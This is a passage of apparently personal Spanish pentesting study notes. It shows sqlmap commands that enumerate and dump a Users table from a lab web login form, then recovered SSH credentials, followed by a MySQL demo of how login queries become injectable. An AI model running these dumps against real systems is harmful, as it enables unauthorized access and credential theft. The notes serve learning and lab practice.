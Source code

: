 Ahora para ver las columnas de la tabla Users, lo haríamos de la siguiente forma:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users --columns --batch
```
![[Mis apuntes/ANEXOS/Pasted image 20230720130627.png]]

Y ahora para ver todos estos registros con los usuarios y contraseñas, lo haríamos con el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users -C password,id,username --dump --batch
```
![[Mis apuntes/ANEXOS/Pasted image 20230720131304.png]]

Por tanto ahora vamos a probar en acceder por ssh con el usuario bart y contraseña b4rtp0w4:
```bash
bart:b4rtp0w4
### Funcionamiento de SQL Injection Explicada desde MySQL
Vamos a mostrar el funcionamiento de una SQL injection desde MySQL para entenderlo mejor, por tanto creamos una base de datos llamada users:
```python
CREATE DATABASE users;
```

Y ahora creamos una tabla llamada acceso:
```python
CREATE TABLE acceso (
  id_usuario INT NOT NULL AUTO_INCREMENT,
  usuario VARCHAR(50) NOT NULL,
  contraseña VARCHAR(50) NOT NULL,
  PRIMARY KEY (id_usuario)
);
```

Ahora creamos 2 usuarios, uno penguin y otro mario, donde en ambos se va a guardar las credenciales de acceso:
```python
INSERT INTO acceso (id_usuario, usuario, contraseña)
VALUES
(1, 'mario', 'megastrongpassword'),
(2, 'penguin', 'megapenguinhack123');
```

Y ahora si hacemos un select * from acceso, veremos que ya tenemos estos dos usuarios insertados:
![[Mis apuntes/ANEXOS/Pasted image 20230314124843.png]]

Vamos ahora a hacer una consulta de tal forma que vamos a simular cómo funcionaría dentro de un panel de login de una web, de tal forma que veremos el funcionamiento de una SQL injection. Por tanto así sería como se efectúa una consulta de forma normal dentro de un panel de login de una página web:
```mysql
select * from acceso WHERE usuario='mario' AND contraseña='megastrongpassword';
```
![[Mis apuntes/ANEXOS/Pasted image 20230314125456.png]]
